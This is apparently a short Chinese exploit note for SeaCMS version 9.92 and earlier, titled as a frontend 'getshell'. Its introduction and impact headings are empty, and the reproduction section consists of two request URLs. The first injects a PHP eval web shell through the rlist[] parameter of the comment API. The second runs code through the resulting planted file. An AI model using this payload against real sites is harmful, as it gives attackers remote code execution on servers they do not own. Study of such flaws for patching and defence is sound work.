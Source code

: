# Seacms <= 9.92 前台Getshell

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```
http://url/comment/api/index.php?gid=1&page=2&rlist[]=*hex/@eval($_GET[_]);?%3E
```

然后访问：


```
http://url/data/mysqli_error_trace.php?_=phpinfo();
```